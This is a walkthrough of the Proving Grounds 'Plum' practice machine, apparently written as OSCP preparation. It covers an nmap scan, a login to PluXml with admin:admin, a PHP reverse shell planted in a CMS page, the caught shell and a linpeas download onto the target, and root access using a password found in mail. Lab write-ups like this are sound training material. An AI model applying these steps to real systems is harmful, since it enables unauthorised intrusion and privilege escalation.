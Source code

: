 ```yaml
---
title: Plum - Intermediate - Linux - PG Practice
date: 2024-06-12
tags:
  - pg-practice
  - offsec
  - oscp-prep
  - linux
  - ospg
  - /var/mail
draft: false
---
```

# Plum - Intermediate - Linux - PG Practice
# **Scanning**

My basic scan runs the following command
```bash
nmap -sC -T5 -Pn -p- --min-rate=10000 $IP
```

```python
──(kali㉿kali)-[~/…/PGPractice/Easy/Linux/plum]
└─$ basic 192.168.217.28 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-11 16:11 EDT
Warning: 192.168.217.28 giving up on port because retransmission cap hit (2).
Nmap scan report for 192.168.217.28
Host is up (0.12s latency).
Not shown: 38064 closed tcp ports (conn-refused), 27469 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 c9c3da15283bf1f89a36df4d366ba744 (RSA)
|   256 26032bf6da901d1bec8d8f8d1e7e3d6b (ECDSA)
|_  256 fb43b2b0192fd3f6bcaa6067abc1af37 (ED25519)
80/tcp open  http
|_http-title: PluXml - Blog or CMS, XML powered !

Nmap done: 1 IP address (1 host up) scanned in 27.23 seconds
```

Going to the homepage, we find an endpoint running `PluXml Blog Version 5.8.7`.
We find an exploit for it at https://github.com/MoritzHuppert/CVE-2022-25018/blob/main/CVE-2022-25018.pdf

Moreover, a pretty basic mistake of using default credentials where I used `admin:admin` to get inside the `PluXml Blog` as Administrator
# **Exploitation**


There are 4 Steps to Reproduce the Exploit
1. Login with admin:admin 
2. In the Administration menu, select static pages and edit one of the pages. 
3. Insert PHP code with starting and closing tags . 
4. Save the changes and open the stored page.

For this purpose I use PentestMonkey PHP reverse shell from [revshells.com](revshells.com) and paste it in the already built page. Saving it and opening the page, while having a listener already on. 

VOILA!! We have a connection for `www-data` user
```python
└─$ nc -lnvp 6969
listening on [any] 6969 ...
connect to [IP] from (UNKNOWN) [192.168.217.28] 44006
Linux plum 5.10.0-23-amd64 #1 SMP Debian 5.10.179-1 (2023-05-12) x86_64 GNU/Linux
 16:42:09 up 3 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off

$ python3 -c 'import pty; pty.spawn("/bin/bash")'

www-data@plum:/$
```
# **Privilege Escalation**

I always like to start with `linpeas.sh`, importing it from my local machine and running it
```python
www-data@plum:/tmp$ wget http://IP:8000/linpeas.sh
wget http://IP:8000/linpeas.sh
--2024-06-11 16:48:10--  http://IP:8000/linpeas.sh
Connecting to IP:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 847924 (828K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 828.05K   791KB/s    in 1.0s    

2024-06-11 16:48:12 (791 KB/s) - ‘linpeas.sh’ saved [847924/847924]

www-data@plum:/tmp$ chmod +x linpeas.sh
chmod +x linpeas.sh
www-data@plum:/tmp$ ./linpeas.sh
./linpeas.sh
```

I noticed an unusual binary in the SUID output
```python
                      ╔════════════════════════════════════╗
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════                                                                                                         
                      ╚════════════════════════════════════╝                                                                                                                              
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                                                           
strace Not Found                                                        
-rwsr-xr-x 1 root root 1.3M Jul 13  2021 /usr/sbin/exim4 
```

I found that `Exim version 4.94.2 #2 built 13-Jul-2021 16:04:57` was running on the machine. As usual, I found many exploits on Google. I tried to get around to root but none of the exploits seem to work for `exim4`

Upon closer inspection, I found that linpeas also found something juicy in the `/var/mail` directory. Looking into it, I found the root password lmao.
```python
╔══════════╣ Mails (limit 50)
   272394      4 -rw-rw----   1 www-data mail         2654 Jun 11 16:48 /var/mail/www-data                                                                                                 
   272394      4 -rw-rw----   1 www-data mail         2654 Jun 11 16:48 /var/spool/mail/www-data
```

```python
To: www-data@localhost
From: root@localhost
Subject: URGENT - DDOS ATTACK"
Reply-to: root@localhost
Message-Id: <E1qZU6V-0000El-Pw@localhost>
Date: Fri, 25 Aug 2023 06:31:47 -0400

We are under attack. We've been targeted by an extremely complicated and sophisicated DDOS attack. I trust your skills. Please save us from this. Here are the credentials for the root user:  
root:XXXXXXXXXXXXXXXXXXXX
Thanks,
Administrator
```

We can escalate to root by either using `su` to login as `root` or use `ssh` directly.
```python
www-data@plum:/tmp$ su
su
Password: XXXXXXXXXXXXXXXXXXXX

root@plum:/tmp# cd /root
cd /root
root@plum:~# cat proof.txt
cat proof.txt
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

```python
└─$ ssh root@192.168.217.28      
The authenticity of host '192.168.217.28 (192.168.217.28)' can't be established.
ED25519 key fingerprint is SHA256:dFgkgTXNmYqIKoPgky6aPnKabkiw7Jf4aZnS4Gwv82Y.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.217.28' (ED25519) to the list of known hosts.
root@192.168.217.28's password:
Last login: Fri Aug 25 06:28:24 2023 from 10.9.1.19

root@plum:~# ls
email7.txt  proof.txt  proof.xt
root@plum:~# cat proof.txt
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

Overall a good machine, with lots of rabbitholes xD